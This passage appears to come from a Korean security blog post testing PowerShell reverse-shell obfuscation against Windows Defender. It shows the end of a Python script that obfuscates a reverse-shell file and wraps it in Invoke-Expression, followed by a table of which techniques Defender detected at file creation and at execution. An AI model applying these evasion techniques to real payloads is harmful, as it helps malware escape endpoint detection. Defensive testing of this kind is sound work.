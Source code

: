 ```python
        final_obfuscated_code += cmd + ";"
    final_obfuscated_code += "Invoke-Expression $str"

    return final_obfuscated_code

if __name__ == "__main__":
    with open('revshell.txt', 'r') as file:
        revshell_code = file.read()

        final_obfuscated_code = replace_obfuscation(revshell_code)

        print(final_obfuscated_code)

        with open('revshell.ps1', 'w') as file:
            file.write(final_obfuscated_code)
```

<br>

![image](/assets/posts/250902-10.png)

스크립트를 실행하면, 위와 같이 난독화된 코드를 확인할 수 있다. `.ps1` 파일은 정상적으로 생성되나, 실행 시에 Windows Defender에 의해 차단되는 것을 확인할 수 있다.

<br>

<br>

# #Conclusion

| 난독화 기법 | 탐지 여부 (파일 생성 시) | 탐지 여부 (파일 실행 시) |
|-------------|-------------------------|-------------------------|
| Base64 Encoding | O | O |
| Random Case | O | O |
| Division/Whitespace | X | O |
| Reorder | X | O |
| Back Ticks | O | O |
| Ascii char assigns | X | O |
| Replace | X | O |
| |
| **O**: 탐지됨, **X**: 탐지되지 않음 |
| Windows Defender 보안 인텔리전스 버전: 1.435.549.0 |
